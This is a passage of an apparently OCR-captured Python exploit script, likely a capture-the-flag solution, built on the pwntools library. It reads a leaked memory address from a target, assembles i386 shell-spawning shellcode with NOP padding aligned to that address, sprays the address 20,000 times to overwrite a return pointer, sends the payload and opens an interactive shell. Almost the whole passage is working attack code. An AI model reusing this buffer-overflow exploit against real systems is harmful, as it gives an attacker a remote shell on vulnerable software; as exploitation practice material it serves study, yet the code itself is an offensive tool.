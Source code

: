 ```
	
	while(fin < 1):
		if(stage == 0):
			print("Cooking")
			
			io = io_beg()						
			io_rdy(io)
			
			addr = io.recvline().decode(ENCODING)
			addr = addr.strip().split("x")[-1]
			
			addr_int = int(addr, 16)
			addr_mod4 = addr_int % 4
			
			print("addr: "+addr)
			print("addr_mod4: "+str(addr_mod4))
			
			
			stage = stage + 1
		elif(stage == 1):
			part1 = asm(shellcraft.i386.linux.sh())
			part1_len = len(part1)
			part1_mod4 = part1_len % 4
			print("part1_len & mod: "+str(part1_len)+" "+str(part1_mod4))
			
			part2_block =  asm(pwnlib.shellcraft.i386.nop())
			assert (len(part2_block) == 1)
			part2_len = ((part1_mod4+addr_mod4) % 4)+4
			part2 = part2_block*part2_len
			print("part2_len "+str(part2_len))
			
			part3_block = p32(addr_int)
			part3_len = 20000 # to be sure
			part3 = part3_block*part3_len
			
			stage = stage + 1
		elif(stage == 2):
			sleep(1)
			
			print("1. Deploying parts")
			print("* Part 1 ("+str(len(part1))+")")
			io.send_raw(part1) # win
			print("* Part 2 ("+str(len(part2))+")")
			io.send_raw(part2) # win
			print("* Part 3 ("+str(len(part3))+")")
			io.send_raw(part3) # win

			print("2. Fire")
			#io.sendline(b'') # fire!		
			
			io.interactive()
			
			stage = stage + 1
		else:
			print("Weird flex, exiting")
			fin = 1

if __name__ == '__main__':
	main()
```
